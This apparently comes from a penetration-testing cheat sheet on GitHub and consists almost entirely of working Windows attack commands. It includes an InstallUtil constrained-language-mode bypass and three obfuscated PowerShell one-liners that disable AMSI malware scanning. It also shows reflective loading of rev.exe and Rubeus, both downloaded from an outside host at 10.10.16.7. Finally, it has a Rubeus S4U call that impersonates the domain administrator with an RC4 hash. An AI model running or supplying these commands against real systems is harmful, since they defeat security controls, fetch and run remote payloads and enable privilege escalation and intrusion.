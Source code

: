 ```powershell
Installutil.exe /logfile= /LogToConsole=false /U "c:\temp\bypass-clm.exe"
```
<br>


## Disable_AMSI
 
 ### Method 1:
```powershell
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true)
```
<br>

### Method 2:
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
<br>

### Method 3:
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);

```
<br>
<br>

## Load_assembly_reflectively

### Download and run assembly without arguments
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()
```
<br>

### Download and run Rubeus, with arguments (make sure to split the args)
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
```
<br>
